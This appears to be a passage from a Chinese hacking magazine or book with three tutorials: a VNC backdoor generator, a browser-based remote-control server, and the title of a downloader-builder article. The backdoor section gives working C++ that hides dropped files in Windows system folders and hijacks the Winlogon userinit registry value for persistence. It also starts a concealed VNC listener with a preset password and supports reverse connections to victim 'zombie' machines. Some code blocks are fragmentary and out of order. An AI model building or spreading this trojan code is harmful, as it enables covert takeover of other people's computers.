```bash
rundll32 winvnc.dll,VNC --Port <value> --Password <string> --RemoteInput <bool> --Wallpaper <bool> --connect <IP:Port> --cmdline <string>

Example:

rundll32 winvnc.dll,VNC --port 5900 --password **** --RemoteInput 1 --Wallpaper 0 --cmdline "null"

rundll32 winvnc.dll,VNC --connect 1.1.1.1:5500 --RemoteInput 1 --Wallpaper 0

rundll32 winvnc.dll,VNC --kill
```

- `--cmdline` 修改自己的映像路径内容，避免密码泄露
- `--connect IP:Port` 反弹连接，配合 vncviewer `listen`
- `--port` 指定监听端口
- `--password ****` 设定登录密码
- `--RemoteInput <bool>` bool数值为真，表示开启远程控制，否则只是观看
- `--Wallpaper <bool>` bool数值为真，表示保留远程桌面壁纸，0表示登录后去除远程墙纸
- `--kill` 表示关闭正在运行的VNC实例

不过这个VNC只有一个DLL，不能单独运行也没有自启动模块，而且运行时还要带那么多的命令，太麻烦了。俗话说“自己动手，丰衣足食”，还是自己动手改造吧，打造自己的VNC后门生成器！

工具：`winvnc.dll + VC6.0`。目标：写一个配置程序，对生成的EXE加入自启动模块，同时配置程序支持正向连接和反向连接，能自定义连接端口和密码。

步骤：先写一个安装程序 `VNCserver.exe`，里面包含3个文件，分别为 `SVCHOST.exe`、`vnc.dll` 和 `tianya.exe`。`SVCHOST.exe` 和 `vnc.dll` 为主要运行时的文件，`tianya.exe` 用于启动前面的两个程序并自运行。

```cpp
// 1.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include <windows.h>
#pragma comment(lib,"user32.lib")
#pragma comment(lib,"kernel32.lib")

#pragma comment(linker,"/OPT:NOWIN98")
#pragma comment(linker,"/merge:.data=.text")
#pragma comment(linker,"/merge:.rdata=.text")
#pragma comment(linker,"/align:0x200")
#pragma comment(linker,"/ENTRY:run")
#pragma comment(linker,"/subsystem:windows")

void run()
{
    char WindowsPath[MAX_PATH]={0};
    GetWindowsDirectory(WindowsPath,MAX_PATH);
    char pas[32]="\\svchost.exe vnc.dll,VNC --port ";
    strcat(WindowsPath,pas);
    char port[6]="5900";
    strcat(WindowsPath,port);
    char password[20]="tianyalangren";
    strcat(WindowsPath," --password ");
    strcat(WindowsPath,password);
    // 上面的一段代码把命令连接起来
    STARTUPINFO si; // 进程启动初始化的结构
}
```

```cpp
PROCESS_INFORMATION pi;
// 进程启动后的有关信息
si.cb = sizeof(STARTUPINFO);
GetStartupInfo(&si);
si.wShowWindow = SW_HIDE;
// 这里设置窗口为隐藏
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

if(!CreateProcess(NULL, WindowsPath, NULL, NULL, TRUE,
    NULL, NULL, NULL, &si, &pi))
{
    MessageBox(0, WindowsPath, "错误", MB_OK);
}
```

上面这段代码的目的就是创建进程执行“svchost.exe vnc.dll,VNC -port 5900 -password tianyalangren”。把上面的代码编译后得到 tianya.exe。接下来我们再编写安装程序，其实这个安装程序用一个简单的自解压也可以做，不过现在要做生成器，还要做成能自己配置，所以还是做成 EXE 的资源比较好。新建一个 CONSOLE 工程，把上述的 tianya.exe、svchost.exe 和 vnc.dll 放到工程目录，以资源的形式加入到工程中，程序运行时把资源 svchost.exe 和 vnc.dll 释放到 Windows 目录，把 tianya.exe 释放到 System32 目录。实现代码如下。

```cpp
// 3.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include <windows.h>
#pragma comment(lib,"user32.lib")
#pragma comment(lib,"kernel32.lib")
#pragma comment(linker, "/OPT:NOWIN98")
#pragma comment(linker, "/merge:.data=.text")
#pragma comment(linker, "/merge:.rdata=.text")
#pragma comment(linker, "/align:0x200")
#pragma comment(linker, "/ENTRY:main")
#pragma comment(linker, "/subsystem:windows")

#define IDR_RC1 101
#define IDR_RC2 102
#define IDR_RC3 103

BOOL CreatServer(char outfile[], char ID);
BOOL CreatServer3(char outfile[], char ID);

BOOL CreatServer(char outfile[], char ID)
{
    HRSRC hResInfo;
    HGLOBAL hResdata;
    DWORD dwSize, dwWritten;
    HANDLE hFile;
    char WindowsPath[MAX_PATH] = {0};
    ...
}
```

```cpp
GetWindowsDirectory(WindowsPath, MAX_PATH);
int len = strlen(WindowsPath) - 1;
if(WindowsPath[len] != '\\') strcat(WindowsPath, "\\");
strcat(WindowsPath, outfile);

hResInfo = FindResource(NULL, MAKEINTRESOURCE(ID), "RC");
if(hResInfo == NULL) { }

dwSize = SizeofResource(NULL, hResInfo);
hResdata = LoadResource(NULL, hResInfo);
if(hResdata == NULL) return FALSE;

hFile = CreateFile(WindowsPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
if(hFile == NULL) return FALSE;
WriteFile(hFile, (LPCVOID)LockResource(hResdata), dwSize, &dwWritten, NULL);
CloseHandle(hFile);
return TRUE;

BOOL CreatServer3(char outfile[], char ID)
{
    HRSRC hResInfo;
    HGLOBAL hResdata;
    DWORD dwSize, dwWritten;
    HANDLE hFile;
    char WindowsPath[MAX_PATH] = {0};
    GetSystemDirectory(WindowsPath, MAX_PATH);
    ...
}
```

```cpp
void run()
{
    char file1[10]="vnc.dll";
    char file2[20]="svchost.exe";
    char file3[12]="tianya.exe";
    CreatServer(file1,IDR_RC1);
    CreatServer(file2,IDR_RC2);
    CreatServer3(file3,IDR_RC3);
    char regname[MAX_PATH]="userinit.exe,tianya.exe";
    HKEY key;
    if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon",0,KEY_ALL_ACCESS,
        &key) == ERROR_SUCCESS)
    {
        RegSetValueEx(key,"userinit",0,REG_SZ,(BYTE*)regname,strlen(regname));
        RegCloseKey(key);
    }

    char TempPath3[MAX_PATH];
    GetSystemDirectory(TempPath3,MAX_PATH);
    strcat(TempPath3,"\\");
    strcat(TempPath3,file3);
    SetFileAttributes(TempPath3,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_READONLY|FILE_ATTRIBUTE_HIDDEN);

    char TempPath2[MAX_PATH];
    GetWindowsDirectory(TempPath2,MAX_PATH);
    strcat(TempPath2,"\\");
    strcat(TempPath2,file2);
    SetFileAttributes(TempPath2,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_READONLY|FILE_ATTRIBUTE_HIDDEN);

    char TempPath1[MAX_PATH];
    GetWindowsDirectory(TempPath1,MAX_PATH);
    strcat(TempPath1,"\\");
    strcat(TempPath1,file1);
    SetFileAttributes(TempPath1,FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_READONLY|FILE_ATTRIBUTE_HIDDEN);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    si.cb = sizeof(STARTUPINFO);
    GetStartupInfo(&si);
    si.wShowWindow = SW_HIDE;
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

    if(!CreateProcess(NULL,TempPath3,NULL,NULL,TRUE,NULL,NULL,NULL,&si,&pi))
    {
        MessageBox(0,"安装错误!","错误",MB_OK);
    }
}
```

VNC 服务端就写好了，下面接着再做一个带界面的配置程序吧。打开 VC6.0，新建一个简单对话框的应用程序，放入图1所示的各个控件，在“生成”按钮上双击，来到 `void CVNCdoorDlg::OnButton1()` 这个地方，加入响应代码，也就是先得到 Edit box 控件里的端口和连接密码，定位到要写入配置信息的 offset。这里多说几句，怎么找 offset 的偏移地址呢？用 UltraEdit32 打开 VNCserver.exe，选择“工具栏->替换->查找”，在“查找”里面写 `tianyalangren`，点击“下一步”，看到了没有，把光标定位到字符串第一位，下面的状态栏里就是我们要的偏移地址了，如图2所示。那么怎么把设置的端口密码写入到服务端呢？接着看我们的代码。

```cpp
// TODO: Add your control notification handler code here
char pass[20], port[6];
char* Buff;
const int offset_port = 96052; // 这个就是刚才找到的地址了
const int offset_pass = 96036;

GetDlgItem(IDC_EDIT1)->GetWindowText(port,6);
// 得到自定义的端口和密码
GetDlgItem(IDC_EDIT2)->GetWindowText(pass,20);

HRSRC   hResInfo;    // 资源句柄
HGLOBAL hResdata;
DWORD   dwSize, dwWritten; // 文件句柄
HANDLE  hFile;
TCHAR   Path[MAX_PATH] = {0};
GetCurrentDirectory(MAX_PATH,Path);
if (Path[strlen(Path)-1] != '\\')
    strcat(Path,"\\");
```

把上面的代码编译成 VNCserver.exe，这样我们的

```cpp
strcat(Path, "\\VNCserver.exe");
hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_SERV1), "serv");
if (hResInfo == NULL) { AfxMessageBox("错误"); }
dwSize = SizeofResource(NULL, hResInfo); // 得到资源大小
hResdata = LoadResource(NULL, hResInfo); // Load 资源
if (hResdata == NULL) { AfxMessageBox("错误"); }
hFile = CreateFile(Path, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL); // 释放资源
if (hFile == NULL) { AfxMessageBox("错误"); }
WriteFile(hFile, (LPCVOID)LockResource(hResdata), dwSize, &dwWritten, NULL);
Sleep(200);
SetFilePointer(hFile, offset_pass, NULL, FILE_BEGIN); // 重定位
Buff = &pass[0];
WriteFile(hFile, Buff, 20, &dwWritten, NULL); // 再次修改文件，写入连接密码
```

```cpp
SetFilePointer(hFile, offset_port, NULL, FILE_BEGIN); // 重定位
Buff = &port[0];
WriteFile(hFile, Buff, 6, &dwWritten, NULL); // 再次修改文件，写入端口
CloseHandle(hFile);
AfxMessageBox("服务端创建成功!\r\nserver.exe");
```

写入配置信息后，新的正向连接服务端就完成了。在这里为了方便大家，我把 vncviewer 也放到生成器里了，点击“控制”就可以直接输入 IP 连接“肉鸡”了。反向连接的我也写好了，可以自己设置反向连接 IP 的端口，当然也可以再改成支持域名的，这里就留给大家完成了。反向连接时先点“监听”再运行反向服务端，不然连接不上哦。上面我只介绍了正向连接的关键代码，完整的工程文件请见附带光盘。该文章内容仅做学习之用，请勿用于非法用途，本人无法保证该工具不会对你的系统造成损害，请使用者自己承担一切后果，否则请勿尝试运行！

### B/S 模式远程控制

#### 简单实现

文/图 天涯浪人

说道 B/S 模式，不能不先说一下 C/S，C/S 和 B/S 是当今世界开发模式技术架构的两大主流技术。C/S 结构，即客户机和服务器结构。目前大多数应用软件系统都是 Client/Server 形式的两层结构，它是软件系统体系结构，通过它可以充分利用两端硬件环境的优势，将任务合理分配到 Client 端和 Server 端来实现，降低了系统的通信开销。B/S 结构即浏览器和服务器结构，它是随着 Internet 技术的兴起，对 C/S 结构的一种变化或者改进的结构。在这种结构下，用户工作界面是通过浏览器来实现的，极少部分事务逻辑在前端（Browser）实现，但是主要事务逻辑在服务器端（Server）实现，形成所谓 3-tier 结构，大大简化了客户端电脑载荷，减轻了系统维护与升级的成本和工作量，这种模式就是 B/S 模式。

C/S 结构的远程控制网上到处都是，像大名鼎鼎的冰河，以及网络神偷、PCSHARE、黑洞，到现在遍地开花的灰鸽子，都是国人 C/S 模式下开发的远程控制软件。B/S 的远程控制网上也有，国外的像 RemotelyAnywhere，VNC 也支持用浏览器进行控制，国内的像 yyc 开发的 rmtsvc2.5.x，也是这方面典型的范例。

当然，B/S 更多是用在嵌入式里的，这方面我了解不多。不多说了，下面我们就来一步步地实现 B/S 模式下的远程控制。

首先说说程序开发思路。服务端（Server）运行后监听 80 端口，并启动程序内模拟的 Web 服务，等待接收客户端请求，采用 IE 作为客户端；通信以 TCP/IP 协议为基础，Server 端与 IE 的通信以 HTTP 协议进行，由浏览器向 Server 发出请求，Server 处理请求，并把结果按 HTTP 协议发送给浏览器，浏览器收到处理结果数据后以网页的形式显示给用户。在正式开始编写程序之前，我们先看下面的两个函数。

```cpp
// 数据 HTTP 打包函数，把发送的数据按 HTTP 协议格式打包传送
BOOL SendToIE(SOCKET s, char *data)
{
    char buffer[BUFFER_SIZE+200];
    DWORD bufferLen;

    sprintf(buffer,
        "HTTP/1.1 200 OK\r\n"
        "Server: Microsoft-IIS/5.0\r\n"
        "Date: Sun, 23 Oct 2005 06:06:46 GMT\r\n"
        "Content-Length: %d\r\n"
        "Content-Type: text/html\r\n"
        "Set-Cookie: ASPSESSIONID...=TESTHTTPWEBMANAGE; path=/\r\n"
        "Cache-control: private\r\n\r\n"
        "%s\r\n", strlen(data), data);

    bufferLen = (DWORD)strlen(buffer);
    send(s, buffer, (DWORD)strlen(buffer), 0);
    return true;
}
```

由于 IE 只接收 HTTP 协议的数据，为了程序处理的结果能正常在 IE 中显示出来，我们用上面的函数把要发给 IE 的数据以 HTTP 协议的形式打包发送。程序接收 IE 请求的时候，收到的数据包也是 HTTP 响应的形式的，我们也要对收到的数据先处理一下。由于这个程序里多数都是 GET 请求，我就直接分析主要部分吧，直接获取 GET 的内容。先看下一个 GET 请求的例子，下面是一个 IE 请求登录验证页面时的数据包。

```cpp
GET /login.htm HTTP/1.1  // 请求获取资源 login.htm
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: aspsessionid...=TESTHTTPWEBMANAGE
```

这里只要知道是在请求 login.htm 这个页面就行了，别的我们暂且不去理会。再看下面的代码。

```cpp
char *jugehead(char *buff)
{
    char temp[MAXDATASIZE] = {0};
    char get[] = "/";
    char htm[] = " HTTP";
    char *F = NULL;
    char *L = NULL;
    char *te = NULL;

    F = strstr(buff, get) + strlen(get);
    L = strstr(buff, htm) + strlen(htm) - 5;
    memset(temp, 0, MAXDATASIZE);
    memcpy(temp, F, L - F);
    return te = temp;
}
```

有了上面的两个函数，很多问题就好办了，发送 HTTP 响应数据和处理接收的 IE 请求都搞定了。下面开始 B/S 远程控制的实现。还是和 C/S 模式一样，程序先建立 Socket 并监听本机 80 端口，代码如下。

```cpp
WSADATA ws;
SOCKET listenFD;
int ret;

// 初始化 wsa
WSAStartup(MAKEWORD(2,2), &ws);

// 建立 Socket
listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

// 监听本机端口
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(80);
server.sin_addr.s_addr = INADDR_ANY;
ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
ret = listen(listenFD, 10);

// 如果客户端请求 80 端口，接受连接
int iAddrSize = sizeof(server);
SOCKET s = accept(listenFD, (sockaddr *)&server, &iAddrSize);
```

当有 IE 连接的时候就接受它，代码如下。

```cpp
int iAddrSize = sizeof(server);
SOCKET s = accept(listenFD, (sockaddr *)&server, &iAddrSize);
```

接受连接后向 IE 发送登录验证页面，要求输入密码。这里我只是简单地要求输入一个密码的网页来验证，也可以像 rmtsvc 那样要求输入账号和密码。当然，为了防止暴力破解，还可以产生一个随机数来做验证码，这里就留给大家来完成了。登录页面如图 1 所示。



图1

继续看如下的代码。

```cpp
char rev[MAXDATASIZE]={0}; // 接收请求缓冲区
char pass[BUFFER_SIZE]={0};
recv(s,rev,MAXDATASIZE,0);
printf("%s\r\n",rev);
send(s,to_index,(DWORD)strlen(to_index),0);
```

其中参数 to_index 的内容如下。

```cpp
char to_index[MAXDATASIZE]="HTTP/1.1 302 Object Moved\r\n"
"Content-Length: 0\r\n"
"Location: /login.htm\r\n"
"Set-Cookie: aspsessionid...; path=/\r\n\r\n";
```

其中的状态码 302 就是重定向，定向到 /login.htm。下面再接收 IE 的请求，方法为“GET /login.htm HTTP/1.1”。

```cpp
recv(s,rev,MAXDATASIZE,0);
login:
int i = SendToIE(s,login);
```

这里才是发送真正的登录页面 /login.htm，代码如下。

```cpp
char login[MAXDATASIZE] = "<html>\r\n"
"<head>\r\n"
"<title>管理员登录</title>\r\n"
"</head>\r\n"
"<body>\r\n"
"<form action=/cgi-bin/login.htm method=post>...";
```

```cpp
"\r\n"
"</center></div><div align=center><center><p><font color=#0000FF>请输入管理员密码:</font><br>\r\n"
"<input type=password name=pass size=20><br>\r\n"
"<input type=submit value=Login></p>\r\n"
"</center></div>\r\n"
"</form>\r\n"
"</body>\r\n"
"</html>\r\n";
```

之后开始登录验证过程，实现代码如下。

```cpp
if (i>0) {
  recv(s,rev,MAXDATASIZE,0); // POST /cgi-bin/login.htm HTTP/1.1 ... pass=www
  char *p = strstr(rev,"pass=");
  if (*(p+strlen("pass=")) != 0)
    strcpy(pass,p+strlen("pass="));
  printf("pass:%s\r\n",pass);
  if(strcmp(pass,g_password)!=0){
    memset(pass,0,sizeof(char)*MAXDATASIZE);
    memset(rev,0,sizeof(char)*MAXDATASIZE);
    goto login;
  } else {
    send(s,"HTTP/1.1 302 Object Moved\r\nContent-Length: 0\r\nLocation: /index.htm\r\n\r\n", ...);
  }
}
```

这样就完成了整个的登录验证过程了，这里的 index.htm 就是程序的主界面。为了让界面更易用，作者对界面做了调整（如图 2 所示）。到这里，程序的主要部分才真正开始：循环接收 IE 请求，对每个请求做分析，请求什么就做相应处理，发送响应及处理后的数据给 IE，也就是程序的功能部分。

```cpp
// 循环接收IE请求，发送响应及处理后的数据
while(1)
{
  ...
}
```

## 木马后门类



图2

```cpp
SendToIE(s,"<center>天涯浪人测试！<br>exit.htm</center>");
}}}
return 0;
}
```

由于篇幅的关系，我不可能在这里把整个程序都写完，只写了两个简单实用的功能——列举主机的系统进程和查看主机的系统信息，详细代码工程文件里都有，就不写出来了，其界面如图 3 和图 4 所示。



图3

```cpp
ZeroMemory(rev,MAXDATASIZE);
i = recv(s,rev,MAXDATASIZE,0);
printf("%s\r\n",revdata);
if(i==SOCKET_ERROR)
{
closesocket(s);
break;
}
else
{
char *re = NULL;
re = jugehead(rev); // 这里判断GET请求的内容
printf("re:%s\r\n",re);
if(strcmp(re,"index.htm")==0) // 请求index.htm页面
{
SendToIE(s,index_htm);
}
if(strcmp(re,"control.htm")==0)
{
SendToIE(s,control_htm); // 发送左边控制页面
}
if(strcmp(re,"viewdir.htm")==0)
{
SendToIE(s,"<center>天涯浪人测试！</center>");
}
if(strcmp(re,"main.htm")==0)
// 这里发送的都是简单的测试数据
// 应该要按HTML格式写的
SendToIE(s,"<center>天涯浪人测试！<br>main.htm</center>");
}
if(strcmp(re,"pslist.htm")==0)
{
pslist((void *)s); // 列举系统进程
}
if(strcmp(re,"sysinfo.htm")==0)
{
sysinfo(s); // 查看系统信息
}
if(strcmp(re,"exit.htm")==0)
{
```



图4

程序到这里当然还存在很多问题，像数据的处理，需要结合浏览器的多种 Script 语言（VBScript、JavaScript、Ajax、XML）和 ActiveX 技术，等等，后面的工作就留给大家了，完整的工程文件已随文章提供。

> 【本文涉及的代码（程序），请见随书光盘】

## 编写Downloader制造机



文／图 暗夜舞者

